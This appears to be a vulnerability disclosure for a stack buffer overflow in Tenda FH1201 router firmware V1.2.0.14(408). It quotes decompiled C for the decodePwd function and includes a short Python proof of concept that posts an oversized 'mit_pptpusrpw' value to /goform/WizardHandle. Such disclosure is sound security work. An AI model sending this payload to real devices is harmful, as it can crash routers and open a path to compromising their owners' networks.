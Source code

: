 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `case 3`, this function accepts the `mit_pptpusrpw` parameter from a POST request, which is assigned to `decodePwd(v18, v54);`. However, since the user has control over the input of `mit_pptpusrpw`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `mit_pptpusrpw` can exceed the capacity of the `v54` array, thus triggering this security vulnerability.

![image-20240731141640278](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731141640278.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"3","mit_pptpusrpw": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)